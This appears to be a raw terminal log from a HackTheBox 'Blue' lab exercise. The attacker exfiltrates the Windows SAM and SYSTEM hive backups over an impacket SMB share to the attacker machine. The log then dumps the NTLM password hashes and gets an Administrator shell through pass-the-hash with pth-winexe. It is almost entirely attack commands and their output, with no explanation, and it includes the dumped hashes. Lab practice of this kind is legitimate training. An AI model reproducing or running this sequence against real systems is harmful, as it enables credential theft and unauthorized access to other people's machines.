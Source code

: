C:\Windows\system32>




root@kali:~/HTB/BLUE/AutoBlue-MS17-010# impacket-smbserver smbfolder $(pwd)
Impacket v0.9.23.dev1+20210111.162220.7100210f - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.40,49167)
[*] AUTHENTICATE_MESSAGE (\,HARIS-PC)
[*] User HARIS-PC\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SMBFOLDER)
[*] AUTHENTICATE_MESSAGE (\,HARIS-PC)
[*] User HARIS-PC\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa


C:\Windows\system32>copy sam.backup \\10.10.14.28\smbfolder\sam
copy sam.backup \\10.10.14.28\smbfolder\sam
        1 file(s) copied.

C:\Windows\system32>copy system.backup \\10.10.14.28\smbfolder\system
copy system.backup \\10.10.14.28\smbfolder\system
        1 file(s) copied.

C:\Windows\system32>





root@kali:~/HTB/BLUE/AutoBlue-MS17-010# ls -la sam
-rwxr-xr-x 1 root root 28672 dic 31  1969 sam
root@kali:~/HTB/BLUE/AutoBlue-MS17-010# ls -la system 
-rwxr-xr-x 1 root root 10608640 dic 31  1969 system
root@kali:~/HTB/BLUE/AutoBlue-MS17-010#



root@kali:~/HTB/BLUE/AutoBlue-MS17-010# pwdump system sam 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cdf51b162460b7d5bc898f493751a0cc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
haris:1000:aad3b435b51404eeaad3b435b51404ee:8002bc89de91f6b52d518bde69202dc6:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
root@kali:~/HTB/BLUE/AutoBlue-MS17-010# 




root@kali:~/HTB/BLUE/AutoBlue-MS17-010# pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:cdf51b162460b7d5bc898f493751a0cc //10.10.10.40 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

